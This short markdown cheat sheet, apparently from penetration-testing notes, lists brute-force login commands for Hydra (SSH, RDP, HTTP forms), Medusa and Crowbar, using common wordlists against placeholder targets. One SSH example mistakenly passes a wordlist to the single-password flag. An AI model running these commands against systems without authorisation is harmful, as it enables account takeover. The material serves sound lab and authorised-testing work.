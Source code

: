 # Bruteforce
Hera are some basic ways to do it. 
## Hydra
* SSH: sudo hydra -l user -p /path/of/wordlist.txt -s PORT ssh://IP
* RDP: sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://IP -> Bruteforce usernames it'll depends about logic if you need the password then put there the wordlist
* HTTP Login Form: sudo hydra -l user -P /usr/share/wordlists/rockyou.txt IP http-post-form "/*index.php*:*fm_usr*=user&*fm_pwd*=^PASS^:*Login failed. Invalid*" -> Here you have to change the parameters and the error message.

## Medusa
* HTTP htaccess: medusa -h IP -u user -P /path/of/wordlist.txt -M http -m DIR:/admin

## Crowbar
* RDP: crowbar -b rdp -s 10.11.0.22/32 -u admin -C /path/of/worlist.txt -n 1 
